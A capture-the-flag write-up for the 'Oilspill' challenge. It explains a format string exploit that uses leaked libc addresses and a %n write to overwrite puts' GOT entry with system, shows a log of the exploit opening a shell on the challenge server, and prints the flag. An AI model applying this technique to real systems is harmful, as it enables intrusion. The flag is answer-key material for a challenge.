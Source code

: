 # Oilspill

Taking at the decompiled C in `ghidra`, it is immeadiately obvious this is a format string attack.

```c
undefined8 main(undefined8 param_1,undefined8 param_2) {
    undefined8 in_R9;
    long in_FS_OFFSET;
    char local_148 [312];
    long local_10;

    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    printf("%p, %p, %p, %p\n",puts,printf,local_148,temp,in_R9,param_2);
    puts("Oh no! We spilled oil everywhere and its making everything dirty");
    puts("do you have any ideas of what we can use to clean it?");
    fflush(stdout);
    fgets(local_148,300,stdin);
    printf(local_148);
    puts("Interesting Proposition");
    fflush(stdout);
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
    }
    return 0;
}
```
`checksec` shows that it is a static binary with no relro, meaning we can overwrite the GOT pointers.
```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

To perform this attack, we take advantage of the `%n` format specifier which takes a pointer and writes the current number of characters written so far into the pointer. A more in depth explanation of format string exploits can be found [here](https://cs155.stanford.edu/papers/formatstring-1.2.pdf).<br>

Looking at the dockerfile shows they are running ubuntu 18.04, and the version of libc shipped with it is 2.27. The binary helpfully leaks the dynamic address of puts and printf which can be used along with libc.so.6 to calculate the libc base address. In order to exploit this binary to get a shell, the vulnerable printf is used to overwrite the GOT pointer of `puts` with the address of `system`. The first 8 bytes of "Interesting Proposition" will be overwritten with "/bin/sh\x00". After the printf is called, puts (now system) is called with "/bin/sh\x00" and gives us a shell.
```
[+] Opening connection to oil.sdc.tf on port 1337: Done
[*] '/home/runner/nothingtosee/OILSPILL/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/runner/nothingtosee/OILSPILL/oilspill'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
FILE PUTS ADDRESS: 0x600c18
DYNAMIC PUTS ADDRESS: 0x7fdd3a402970
DYNAMIC PRINTF ADDRESS: 0x7fdd3a3e6e40
LIBC PUTS OFFSET: 0x80970
LIBC ADDRESS: 0x7fdd3a382000
b'0x400677\nOh no! We spilled oil everywhere and its making everything dirty\ndo you have any ideas of what we can use to clean it?\n'
[*] Switching to interactive mode
$ ls
OilSpill
flag.txt
$ cat flag.txt
sdctf{th4nks_f0r_S4V1nG_tH3_duCk5}
```
## Flag: sdctf{th4nks_f0r_S4V1nG_tH3_duCk5}